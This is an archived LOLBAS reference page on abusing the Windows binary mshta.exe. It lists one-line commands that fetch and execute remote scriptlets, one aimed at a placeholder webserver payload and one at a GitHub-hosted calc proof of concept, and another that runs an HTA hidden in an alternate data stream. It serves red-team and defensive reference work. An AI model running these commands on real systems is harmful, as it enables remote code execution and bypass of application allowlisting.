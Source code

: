 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## mshta.exe

* Functions: Execute, Read ADS

```
mshta.exe evilfile.hta    

mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))    

mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();     
    
mshta "C:\ads\file.txt:file.hta"
```

Acknowledgements:
* Casey Smith - @subtee
* Oddvar Moe - @oddvarmoe

Code sample:
* [Mshta_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Mshta_calc.sct)

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md      
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4     
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct     
* https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/    
* https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

Full path:
```
C:\Windows\System32\mshta.exe
C:\Windows\SysWOW64\mshta.exe
```

Notes:
SCT code borrowed from Red Canary - Atomic Red Team 

